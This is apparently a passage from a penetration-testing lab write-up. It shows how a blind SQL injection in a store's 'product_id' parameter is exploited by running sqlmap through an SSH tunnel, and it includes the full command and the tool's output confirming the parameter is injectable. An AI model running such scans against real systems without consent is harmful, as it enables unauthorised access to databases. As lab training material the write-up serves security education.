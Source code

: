 ## Exploiting a Blind SQL Injection:

Since this seems like a [Blind SQL Injection](https://www.owasp.org/index.php/Blind_SQL_Injection), I will be utilizing [sqlmap](http://sqlmap.org/) for the exploitation of this vulnerability.

Now before we start, just remember... since we are running via an SSH Tunnel, we will have to connect to port 8080 via localhost to be able to reach the dev-store and exploit it from there. Otherwise, if we attack 192.168.101.9, then sqlmap will fail due to the 403 error.

Looking back at the SQL error, it seems that the backend database is running MySQL. Thus, let's configure sqlmap and see if we can't exploit the sql inject.

```console
root@kali:~/gds# sqlmap -u "http://localhost:8080/index.php?route=product/product&product_id=53" -p product_id --dbms=MySQL
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.0.12#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 21:47:23

[21:47:23] [INFO] testing connection to the target URL
[21:47:23] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[21:47:24] [WARNING] reflective value(s) found and filtering out
[21:47:24] [INFO] testing if the target URL is stable
[21:47:24] [INFO] target URL is stable
[21:47:25] [INFO] heuristics detected web page charset 'ascii'
[21:47:25] [INFO] heuristic (basic) test shows that GET parameter 'product_id' might be injectable (possible DBMS: 'MySQL')
[21:47:25] [INFO] testing for SQL injection on GET parameter 'product_id'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[21:47:57] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[21:48:00] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[21:48:10] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[21:48:29] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment) (NOT)'
[21:48:39] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
[21:48:41] [INFO] GET parameter 'product_id' appears to be 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause' injectable (with --string="eu")
[21:48:41] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[21:48:41] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE, HAVING clause (BIGINT UNSIGNED)'
[21:48:42] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[21:48:42] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE, HAVING clause (EXP)'
[21:48:42] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[21:48:42] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE, HAVING clause (JSON_KEYS)'
[21:48:42] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[21:48:43] [INFO] GET parameter 'product_id' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[21:48:43] [INFO] testing 'MySQL inline queries'
[21:48:43] [INFO] testing 'MySQL > 5.0.11 stacked queries (comment)'
[21:48:43] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[21:48:43] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP - comment)'
```